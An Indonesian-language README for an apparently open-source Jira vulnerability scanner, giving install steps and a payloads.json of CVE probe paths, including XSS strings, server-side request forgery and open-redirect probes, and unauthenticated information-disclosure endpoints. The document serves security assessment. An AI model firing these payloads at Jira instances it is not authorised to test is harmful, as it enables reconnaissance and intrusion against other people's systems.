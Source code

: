 # Jira Vulnerability Scanner

**Jira Vulnerability Scanner** adalah alat otomatis yang dirancang untuk mengidentifikasi kerentanannya pada instance Jira dengan memeriksa berbagai CVE (Common Vulnerabilities and Exposures) yang diketahui. Alat ini memungkinkan administrator dan profesional keamanan untuk secara efisien menilai keamanan instance Jira mereka.

## Fitur Utama

- **Pemeriksaan Otomatis:** Memeriksa berbagai CVE yang diketahui pada instance Jira secara otomatis.
- **Laporan Terperinci:** Memberikan laporan yang jelas mengenai status kerentanannya, termasuk informasi tentang endpoint yang rentan dan tidak rentan.
- **Kemudahan Penggunaan:** Dirancang dengan antarmuka baris perintah yang sederhana untuk kemudahan penggunaan.

## Instalasi

1. **Cloning Repositori:**
```bash
git clone https://github.com/pwnosec/jira-vuln-scanner.git
cd jira-vuln-scanner
```
2. Instalasi Dependensi:
Pastikan Anda memiliki Python 3 dan pip terinstal. Kemudian, instal dependensi yang diperlukan:
```
pip3 install -r requirements.txt
```
3. Membuat Virtual Environment
Sebelum memulai, pastikan Anda telah menginstal Python 3 di sistem Anda. Kemudian, buat virtual environment untuk mengisolasi dependensi proyek:
```bash
python3 -m venv jiravuln
```
4. Aktifkan Virtual Environment Pada sistem Linux/MacOS:
```
source jiravuln/bin/activate
```
Pada sistem Windows:
```
.\venv\Scripts\activate
```
5. Penggunaan
Untuk memulai pemindaian, jalankan perintah berikut:
```
python3 jiracheck.py --url https://<url-jira-anda> --payloads payloads.json
```
Gantilah `<url-jira-anda>` dengan URL instance Jira Anda. Alat ini akan memeriksa berbagai endpoint yang rentan dan memberikan laporan mengenai status kerentanannya.

## Payloads
Payloads yang digunakan untuk memeriksa kerentanannya disimpan dalam file payloads.json. Berikut adalah beberapa payload yang digunakan:
```json
{
  "CVE-2017-9506": "/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing.com",
  "CVE-2018-5230": "/pages/<IFRAME%20SRC%3D%22javascript%3Aalert('XSS')%22>.vm",
  "CVE-2018-20824": "/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)",
  "CVE-2019-3396": "/rest/tinymce/1/macro/preview",
  "CVE-2019-3402": "/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=<script>alert(1)</script>&Search=Search",
  "CVE-2019-3403": "/rest/api/2/user/picker?query=<user_name_here>",
  "CVE-2019-8442": "/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml",
  "CVE-2019-8449": "/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true",
  "CVE-2019-8451": "/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com",
  "CVE-2019-11581": "/secure/ContactAdministrators!default.jspa",
  "CVE-2020-14178": "/browse.<project_key>",
  "CVE-2020-14179": "/secure/QueryComponent!Default.jspa",
  "CVE-2020-14181": "/secure/ViewUserHover.jspa?username=<uname>",
  "CVE-2020-36289": "/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin",
  "CVE-2020-36289 (alt)": "/servicedesk/customer/user/signup",
  "CVE-2020-36289 (alt)": "/jira/projects",
  "jira-unauth-popular-filters": "/secure/ManageFilters.jspa?filterView=popular",
  "jira-unauthenticated-dashboards": "/rest/api/2/dashboard?maxResults=100",
  "Resolution found": "/rest/api/2/resolution",
  "Admin Project Dashboard Accessible": "/rest/menu/latest/admin",
  "Project Group Found": "/rest/api/2/projectCategory?maxResults=100",
  "Medium - Service Desk Signup Enable": "/servicedesk/customer/user/signup",
  "LOW - Query Component Field": "/secure/QueryComponents!Jql.jspa?jql="
}
```
Payloads ini digunakan untuk memeriksa kerentanannya pada berbagai endpoint di instance Jira Anda.

### Referensi
Untuk informasi lebih lanjut mengenai CVE yang digunakan dalam pemindaian ini, Anda dapat merujuk ke sumber-sumber berikut:

- CVE-2017-9506
- CVE-2018-5230
- CVE-2018-20824
- CVE-2019-3396
- CVE-2019-3402
- CVE-2019-3403
- CVE-2019-8442
- CVE-2019-8449


<p align="center">
  <a href="[https://star-history.com/#pwnosec/jira-vuln-scanner&Date](https://avatars.githubusercontent.com/u/29165227?v=4)">
   <picture>
     <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=pwnosec/jira-vuln-scanner&type=Date&theme=dark" />
     <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=pwnosec/jira-vuln-scanner&type=Date" />
     <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=pwnosec/jira-vuln-scanner&type=Date" />
   </picture>
  </a>
</p>
